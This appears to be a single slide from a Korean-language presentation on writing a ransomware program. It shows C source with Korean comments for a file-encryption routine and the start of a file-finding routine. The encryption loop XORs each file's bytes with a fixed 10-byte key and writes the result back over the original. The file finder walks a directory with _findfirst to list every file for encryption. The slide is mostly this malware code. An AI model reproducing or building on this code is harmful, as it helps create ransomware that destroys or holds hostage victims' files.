

02 랜섬웨어 프로그램
-#1 암호화 프로그램
#1 파일 찾기 & 파일 암호화
 for (i = 0; i<read_size; i++) //문서가 있으면
      {
         data[i] ^= the_key[i % 10]; //암호화된 데이터를 data배열에 저장
      }

      frpos = ftell(fp); //ftell 은 현재위치의 위치값을 리턴

      fseek(fp, fwpos, SEEK_SET); //fseek = 현재의 위치로 파일포인터 지정
      fwrite(data, 1, read_size, fp); // data배열에 저장된 값을 fwrite 함.

      fseek(fp, frpos, SEEK_SET);
   }
   fclose(fp);
   printf("%s 암호화 완료.\n", filefullname);
   return 1;
}
void findfile(char* path) {

   long h_file;
   char search_Path[100]; //파일경로 저장배열
   FILE_SEARCH file_search; //파일찾는구조체

   sprintf(search_Path, "%s/*.*", path); //경로출력
   if ((h_file = _findfirst(search_Path, &file_search)) == -1L) {  //findfirst = 지정해준 디렉토리 속 모든 파일 리스트 search -->io.h
      printf("No files in current directory!\n");
   }